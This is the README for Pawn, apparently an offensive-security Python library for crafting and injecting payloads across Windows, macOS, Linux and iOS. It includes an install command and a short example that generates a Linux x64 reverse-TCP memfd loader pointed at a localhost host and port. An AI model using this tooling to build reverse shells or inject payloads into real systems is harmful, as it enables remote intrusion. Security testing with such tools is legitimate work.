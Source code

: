 # Pawn

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/Pawn/forks">
        <img src="https://img.shields.io/github/forks/EntySec/Pawn?color=green">
    </a>
    <a href="https://github.com/EntySec/Pawn/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pawn?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/Pawn">
        <img src="https://www.codefactor.io/repository/github/EntySec/Pawn/badge">
    </a>
</p>

Pawn is a collection of Python techniques used for crafting, manipulating and injecting payloads.

## Features

* Support for `Windows`, `macOS`, `Linux` and `Apple iOS` payloads.
* Support for such techniques like `Reflective DLL Injection` and `procfs loader`.
* Has modular system which allows you to write your own custom payloads.

## Installation

```
pip3 install git+https://github.com/EntySec/Pawn
```

## Examples

Example of obtaining [ELF procfs loader](https://blog.entysec.com/2023-04-02-remote-elf-loading/) with custom host and port.

```python
from pawn import Pawn

pawn = Pawn()

module = pawn.get_pawn(
    module='linux/x64/reverse_tcp_memfd',
    platfrom='linux',
    arch='x64',
    type='reverse_tcp'
)

pawn.set_module_option(module, 'host', '127.0.0.1')
pawn.set_module_option(module, 'port', 8888)

payload = pawn.run_module(module)
print(len(payload))
```

## Special Thanks

* Some parts of **assembly code for Windows** were ported from free open-source project [Metasploit Framework](https://github.com/rapid7/metasploit-framework).
